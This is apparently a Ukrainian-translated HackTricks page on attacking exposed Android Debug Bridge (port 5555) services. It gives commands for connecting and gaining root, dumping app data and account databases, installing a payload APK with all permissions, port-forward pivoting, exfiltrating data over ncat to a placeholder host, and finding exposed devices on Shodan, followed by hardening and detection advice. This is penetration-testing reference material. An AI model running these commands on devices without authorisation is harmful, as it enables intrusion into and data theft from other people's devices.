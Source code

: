 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Основна інформація

З [документації](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) — це інструмент командного рядка для зв'язку з пристроями та емуляторами на базі Android. Типові дії включають встановлення пакетів, налагодження та отримання інтерактивної оболонки Unix на пристрої.

- Історичний стандартний TCP порт: 5555 (класичний режим "adb tcpip").
- Сучасне бездротове налагодження (Android 11+) використовує TLS-парування та виявлення сервісів mDNS. Порт підключення є динамічним і виявляється через mDNS; він може бути не 5555. Парування виконується за допомогою adb pair host:port, після чого слідує adb connect. Дивіться примітки нижче для наступних наслідків.

Приклад відбитка nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Connect

Якщо ви виявите, що ADB відкритий і доступний, спробуйте швидко підключитися та перерахувати:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Якщо пристрій вимагає аутентифікацію ADB (ro.adb.secure=1), вам потрібно буде бути попередньо авторизованим (USB RSA auth) або використовувати бездротову пару налагодження Android 11+ (що вимагає одноразового коду, що відображається на пристрої).
- Деякі образи постачальників, інженерні/користувацькі збірки, емулятори, телевізори, STB та розробницькі набори відкривають adbd без аутентифікації або з adbd, що працює як root. У таких випадках ви зазвичай потрапляєте безпосередньо в оболонку або оболонку root.

Для загальної довідки по командам ADB дивіться:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Швидке пост-експлуатаційне тестування

Якщо у вас є оболонка, перевірте привілеї та контекст SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Перерахунок та захоплення даних

- Список сторонніх додатків та шляхів:
```bash
pm list packages -3
pm path <pkg>
```
- Якщо у вас є root (adb root або su працює), ви можете отримати доступ до /data безпосередньо. Якщо ні, віддайте перевагу run-as для додатків, що підлягають налагодженню:
```bash
# Без root, для додатку, що підлягає налагодженню
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# З root
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Корисні системні артефакти (потрібен root):
- /data/system/users/0/accounts.db та пов'язані дані AccountManager
- /data/misc/wifi/ (мережеві конфігурації/ключі на старіших версіях)
- Специфічні для додатка SQLite БД та shared_prefs під /data/data/<pkg>

Ви можете використовувати це для отримання чутливої інформації (наприклад, секретів додатка). Для приміток про розгляд даних Chrome дивіться питання, згадане [тут](https://github.com/carlospolop/hacktricks/issues/274).

### Виконання коду та доставка корисного навантаження

- Встановіть та автоматично надайте дозволи на виконання:
```bash
adb install -r -g payload.apk         # -g надає всі дозволи на виконання, оголошені в маніфесті
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Запускайте активності/сервіси/трансляції безпосередньо:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Переадресація портів та піводування

Навіть без root, adb може переадресовувати локальні порти на порти пристрою і навпаки. Це корисно для доступу до сервісів, прив'язаних локально на пристрої, або для відкриття сервісів атакуючого для пристрою.

- Переадресація host->device (доступ до локального сервісу пристрою з вашого хоста):
```bash
adb forward tcp:2222 tcp:22       # Якщо пристрій запускає SSH (наприклад, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Відкриття локального сервера налагодження додатку
```
- Зворотна переадресація device->host (дозволити пристрою досягти сервісу на вашому хості):
```bash
adb reverse tcp:1080 tcp:1080     # Додатки пристрою тепер можуть досягти host:1080 як 127.0.0.1:1080
```
- Екстракція файлів через сокети (без записів на sdcard):
```bash
# На хості: слухати
ncat -lvp 9000 > dump.tar
# На пристрої: надіслати каталог як tar (root або run-as за потреби)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Бездротове налагодження (Android 11+)

Сучасний Android реалізує захищене TLS бездротове налагодження з паруванням на стороні пристрою та виявленням mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notes
- Порти динамічні; не припускайте 5555. Імена служб mDNS виглядають так:
- _adb-tls-pairing._tcp (параметр)
- _adb-tls-connect._tcp (підключення з парою)
- _adb._tcp (старий/прямий)
- Якщо mDNS фільтрується, класичне USB-допоміжне включення може все ще працювати на деяких збірках: `adb tcpip 5555`, а потім `adb connect <ip>:5555` (до перезавантаження).

Офensive implications: якщо ви можете взаємодіяти з інтерфейсом пристрою (наприклад, фізичний доступ або неправильна конфігурація мобільного MDM), щоб увімкнути бездротове налагодження та переглянути код пари, ви можете встановити довгостроковий підключений ADB-канал без кабелю. Деякі OEM надають ADB через TCP в інженерних/розробницьких образах без пари — завжди перевіряйте.

## Hardening / Detection

Захисники повинні вважати, що будь-який досяжний adbd (TCP) є критичним ризиком.

- Вимкніть ADB та бездротове налагодження, коли це не потрібно. Відкличте авторизації USB-налагодження в параметрах розробника.
- Переконайтеся, що мережна політика блокує вхідний TCP/5555 та виявлення ADB на основі mDNS на ненадійних сегментах.
- На пристроях під вашим контролем:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # вимкнути прослуховування TCP (або використовуйте: adb usb)
stop adbd; start adbd             # перезапустити демон
```
- Моніторте записи mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` в корпоративних мережах та сповіщайте про несподівані прослуховувачі 5555.
- Інвентаризація для небезпечних збірок: `getprop ro.debuggable`, `ro.build.type`, та `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## References

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
